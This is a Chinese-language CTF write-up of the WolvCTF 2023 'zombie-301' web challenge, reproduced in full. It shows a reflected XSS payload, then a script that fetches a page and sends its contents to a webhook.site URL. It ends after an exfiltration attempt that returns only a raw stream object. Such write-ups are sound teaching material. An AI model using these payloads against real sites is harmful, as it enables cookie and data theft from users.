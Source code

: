 # WolvCTF(2023)-zombie-301 writeup

访问题目地址:

![web-3.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.1.png)

有两个输入框，先看下前端代码,只有两个接口信息：
![web-3.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.2.png)

貌似没啥东西，第一个输入框要求输入一个zombie节目，第二个是输入一个zombie节目url。

第一个框随便输入内容之后，回显内容如下，输入内容嵌入到页面里面了

![web-3.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.3.png)

试试xss注入,很好，没有过滤：

<script>alert(1)</script>

请求地址：`http://49.232.142.230:11589/zombie?show=%3Cscript%3Ealert%281%29%3C%2Fscript%3E`

![web-3.8](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.8.png)

第二个框是输入一个url,随便输入之后，回显内容要求输入的url中host头要和题目地址一样，emm

![web-3.9](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.9.png)

试下201中的debug接口：

![web-5.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-5.1.png)

debug接口有鉴权，访问不成功了，emm,现在可以知道的是，请求头中的cookie信息中含有flag信息，原本想试试访问请求头或者响应头信息 的，但是没有cors可以利用，**普通用户的浏览器**在默认安全策略下是**无法通过 `fetch` 获取跨域响应的内容（包括响应体、响应头等）**的，除非目标服务器主动设置了允许跨域访问的 CORS 头。如果是普通用户浏览器，JS 是拿不到跨域响应内容的；但在题目环境中，zombie.js存在漏洞，甚至可以读取 `file://`。直接读取response信息：

```
<script>fetch("http://49.232.142.230:12327/").then((data) => fetch("https://webhook.site/409eebb6-3c36-4da2-915b-1d2c3ea3426c?c=".concat(JSON.stringify(data))));</script>
```

![web-5.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-5.2.png)

webhook回传 Node.js中读取 HTTP 响应内容时未做 `stream` 转换处理直接返回的原始 `ReadableStream` 对象

![web-5.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-5.3.png)
